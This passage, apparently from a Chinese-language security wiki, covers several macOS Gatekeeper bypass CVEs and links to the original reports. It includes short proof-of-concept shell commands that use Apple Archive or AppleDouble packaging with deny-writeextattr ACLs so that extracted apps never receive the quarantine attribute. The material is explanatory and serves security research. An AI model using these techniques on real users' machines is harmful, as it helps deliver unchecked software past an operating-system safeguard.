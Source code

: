 ### [CVE-2022-32910](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-32910)

即使组件不同，此漏洞的利用与之前的非常相似。在这种情况下，将从 **`application.app/Contents`** 生成一个 Apple Archive，因此 **`application.app` 在通过 **Archive Utility** 解压缩时不会获得隔离属性**。
```bash
aa archive -d test.app/Contents -o test.app.aar
```
查看[**原始报告**](https://www.jamf.com/blog/jamf-threat-labs-macos-archive-utility-vulnerability/)以获取更多信息。

### [CVE-2022-42821](https://www.microsoft.com/en-us/security/blog/2022/12/19/gatekeepers-achilles-heel-unearthing-a-macos-vulnerability/)

ACL **`writeextattr`** 可用于防止任何人向文件中写入属性：
```bash
touch /tmp/no-attr
chmod +a "everyone deny writeextattr" /tmp/no-attr
xattr -w attrname vale /tmp/no-attr
xattr: [Errno 13] Permission denied: '/tmp/no-attr'
```
此外，**AppleDouble** 文件格式复制了一个文件及其 ACE。

在 [**源代码**](https://opensource.apple.com/source/Libc/Libc-391/darwin/copyfile.c.auto.html) 中可以看到，存储在名为 **`com.apple.acl.text`** 的 xattr 中的 ACL 文本表示将被设置为解压缩文件中的 ACL。因此，如果您将一个应用程序压缩成一个带有 ACL 的 **AppleDouble** 文件格式的 zip 文件，该 ACL 阻止其他 xattrs 被写入... 那么隔离 xattr 并没有被设置到应用程序中：

{% code overflow="wrap" %}
```bash
chmod +a "everyone deny write,writeattr,writeextattr" /tmp/test
ditto -c -k test test.zip
python3 -m http.server
# Download the zip from the browser and decompress it, the file should be without a quarantine xattr
```
{% endcode %}

查看[**原始报告**](https://www.microsoft.com/en-us/security/blog/2022/12/19/gatekeepers-achilles-heel-unearthing-a-macos-vulnerability/)以获取更多信息。

请注意，这也可以通过AppleArchives进行利用：
```bash
mkdir app
touch app/test
chmod +a "everyone deny write,writeattr,writeextattr" app/test
aa archive -d app -o test.aar
```
### [CVE-2023-27943](https://blog.f-secure.com/discovery-of-gatekeeper-bypass-cve-2023-27943/)

发现**Google Chrome没有为下载的文件设置隔离属性**，这是由于一些macOS内部问题造成的。

### [CVE-2023-27951](https://redcanary.com/blog/gatekeeper-bypass-vulnerabilities/)
